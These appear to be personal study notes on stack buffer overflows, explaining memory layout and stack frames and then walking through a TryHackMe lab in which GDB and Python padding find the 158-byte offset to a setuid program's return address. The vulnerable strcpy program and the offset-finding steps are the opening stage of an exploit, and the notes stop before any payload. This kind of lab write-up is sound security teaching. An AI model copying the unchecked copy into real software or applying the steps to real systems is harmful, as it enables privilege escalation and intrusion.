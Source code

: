 ```yaml
---
title: "Buffer Overflows"
---
```


:::note

Notes on everything buffer-overflow

:::

## The Stack 

The stack is the place in memory where your local variables and function arguments go.

Your application address space looks like this:

```sh
high addresses
  _____________
 [_____________]
 [    stack    ]
 [_____________]
 [             ]
 [             ]
 [_____________]
 [____heap_____]
 [___globals___]
 [____code_____]
 [_____________]

low addresses
```

The "heap" grows "upward", and the "stack" grows "downward"- so the "top" of the stack if you look at the diagram is technically the "bottom", cos it grows "downward".

### Stack Frame

:::info 

Reference [The Call Stack and Stack Overflows (example in C)](https://www.youtube.com/watch?v=jVzSBkbfdiw)

:::

Every time you call a function a chunk of memory is allocated to the "top" of the stack, this is called the `Stack Frame`, and holds the args, local variables and return address to jump back to, for that function call.

These Stack Frames are `PUSH` onto the stack:

e.g.

```sh 
main (locals, args, return)
printf(locals, args, return)
malloc(locals, args, return)
```

When the function "returns", the stack frame is removed with POP

|stack bottom|
|:-----------:|
|return address|
|saved registers|
|buffer: function|
|stack top|

### Stack Overflow 

To "overflow" we write more data to a memory space than allocated e.g. `char buffer[140]`, this causes memory addresses to be overwritten with whatever "extra" bytes flows over the size of the buffer.

> _no segfault_?

Segfault's happen when our program tries to overwrite memory space it does NOT own.

## x86 overflow using GDB

### Scenario

The scenario, is a buffer-overflow program belonging to `user1` will be used to read a `secret.txt` file belonging to `user2`:

```
[user1@ip-10-10-79-28 overflow-3]$ ll
total 24
-rwsrwxr-x 1 user2 user2 8264 Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
```

Notes on an overflow using this program from TryHackMe [Buffer Overflow Room](https://tryhackme.com/room/bof1) task 8.

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

this technique uses Python, GDB and a clear understanding of all elements of the Stack.

### Find the offset

use Python and GDB to find the offset i.e. number of bytes it takes to overwrite the return address.

```sh
(gdb) run $(python -c "print('A' * 150)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 150)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 151)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 151)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGBUS, Bus error.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 152)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 152)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0x0000000000400500 in __do_global_dtors_aux ()

(gdb) run $(python -c "print('A' * 155)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 155)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```

line `0x0000000000400595 in main ()` is the return address

what we're trying to do is overwrite it with until we see all `A`s i.e. `\x41` all over the return address like the following:

```
(gdb) run $(python -c "print('A' * 158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()

(gdb) run $(python -c "print('A' * 159)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 159)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
```

you know you've gone OVER it when the return address goes from `41`s to some other bytes.

so, we now know  `158` bytes
